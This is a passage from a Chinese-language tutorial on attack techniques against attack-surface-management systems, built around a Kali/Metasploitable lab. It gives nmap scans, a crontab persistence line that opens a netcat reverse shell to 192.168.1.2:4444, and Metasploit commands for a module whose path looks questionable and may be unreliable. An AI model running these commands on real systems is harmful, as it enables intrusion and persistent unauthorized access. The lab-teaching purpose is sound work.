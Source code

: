 **工具示例：**
```bash
proxychains nmap -sS -p 1-65535 example.com
```

### 4.2 持久化攻击

攻击者可以通过持久化技术确保在攻击面管理系统检测到并修复漏洞后，仍能保持对目标系统的访问。

**技术示例：**
- **后门植入**：在目标系统中植入后门程序。
- **计划任务**：利用计划任务定期执行恶意代码。

**命令示例：**
```bash
echo "nc -e /bin/bash 192.168.1.2 4444" >> /etc/crontab
```

## 5. 攻击步骤和实验环境搭建指南

### 5.1 实验环境搭建

为了进行攻击面管理系统的攻击技术实验，建议搭建以下环境：

- **目标系统**：使用虚拟机（如VirtualBox）安装一个易受攻击的操作系统（如Metasploitable）。
- **攻击系统**：使用Kali Linux作为攻击系统。
- **网络配置**：将目标系统和攻击系统配置在同一网络中。

**步骤示例：**
1. 在VirtualBox中安装Metasploitable虚拟机。
2. 在VirtualBox中安装Kali Linux虚拟机。
3. 配置两台虚拟机的网络为“仅主机（Host-Only）网络”。

### 5.2 攻击步骤

#### 5.2.1 信息收集

1. 使用`dnsenum`进行DNS枚举。
2. 使用`nmap`进行端口扫描。

**命令示例：**
```bash
dnsenum example.com
nmap -sS -p 1-65535 example.com
```

#### 5.2.2 漏洞利用

1. 使用Metasploit框架利用已知漏洞。
2. 使用自定义脚本利用零日漏洞。

**命令示例：**
```bash
msfconsole
use exploit/windows/smb/cve_2021_34527
set RHOSTS 192.168.1.1
exploit
```
